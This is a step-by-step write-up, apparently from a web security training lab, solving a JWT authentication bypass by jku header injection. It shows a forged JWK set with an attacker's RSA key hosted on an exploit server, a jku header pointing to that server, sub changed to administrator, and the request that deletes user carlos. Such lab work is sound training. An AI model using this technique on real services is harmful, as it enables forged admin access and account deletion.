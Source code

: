# JWT authentication bypass via jku header injection

## This lab uses a JWT-based mechanism for handling sessions. The server supports the `jku` parameter in the JWT header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

## To solve the lab, forge a JWT that gives you access to the admin panel at `/admin`, then delete the user `carlos`.

## You can log in to your own account using the following credentials: `wiener:peter`



step 1

![[lab5_my_account.png]]


step 2

![[lab5_admin_request.png]]



step 3

![[lab5_rsa_key_generated.png]]

step 4
![[lab5_example_jwk.png]]
format for payload
```json
{ 
"keys": [ 
{body1},
{body2}
] 
}
```

![[lab5_rsa_file_copy_for_public_key.png]]

```json
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "6042f3a7-58b7-49b5-8cd4-57e8f34a89fb",
    "n": "1dEdwHsmAwb4x39cVNqXXmrv2uy4k_YnuYYxX81jbE4C4BBmu_W9OrYUQo_k8p5E_bK7hI4xD3TFYiqqgQewHDYAEaqG0mgP0TshPn6ZiLhynfUrq402iy3GxRP3VbIVC1WF62U_1X_2SW2HKwBZwS5nj_z25FApFpzWI37SBj0t4C9jV7bcq1a8e71Xzfkbe1Sa7kAFMtt5Pf-QK1hXQHqWj10T3-wFRPvTQV7JYzvOoiqk0qWSOgxPwNpTxQMhs5QVwqdErq9EU8d9ikgjuL5vEUHvQXrZch8Ryepdw49uxayInIupmBtu7BOmnwDJLVZj6QGNQ4RkVIltkcSm7Q"
}
```

final payload
look like

```json
{ 
"keys": [ 
	{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "6042f3a7-58b7-49b5-8cd4-57e8f34a89fb",
    "n": "1dEdwHsmAwb4x39cVNqXXmrv2uy4k_YnuYYxX81jbE4C4BBmu_W9OrYUQo_k8p5E_bK7hI4xD3TFYiqqgQewHDYAEaqG0mgP0TshPn6ZiLhynfUrq402iy3GxRP3VbIVC1WF62U_1X_2SW2HKwBZwS5nj_z25FApFpzWI37SBj0t4C9jV7bcq1a8e71Xzfkbe1Sa7kAFMtt5Pf-QK1hXQHqWj10T3-wFRPvTQV7JYzvOoiqk0qWSOgxPwNpTxQMhs5QVwqdErq9EU8d9ikgjuL5vEUHvQXrZch8Ryepdw49uxayInIupmBtu7BOmnwDJLVZj6QGNQ4RkVIltkcSm7Q"
	}
] 
}
```

step 5
copy final payload to exploit and click on store

![[lab5_exploit_pyload_store.png]]

step 6
- add in header  ` "jku": "https://exploit-0ae000a00424bb2e807db60001ce0021.exploit-server.net/exploit"`
- change payload with `"sub": "administrator"`
- click on sign in, pop will appear don't modify header click ok
- send Get /admin request you will get 200 ok

![[lab5_modidy_header_add_jku.png]]

when you will get 200 ok go to bottom
you will see admin panel and wiener and carlos  account  delete operation


![[lab5_admin_panel.png]]


step 6
send GET /admin/delete?username=carlos request to solve lab

![[lab5_delete_carlos_account.png]]


![[portswigger_wsa/P03_advanced_topics/P23_JWT_attacks/images/lab5_solved_lab.png]]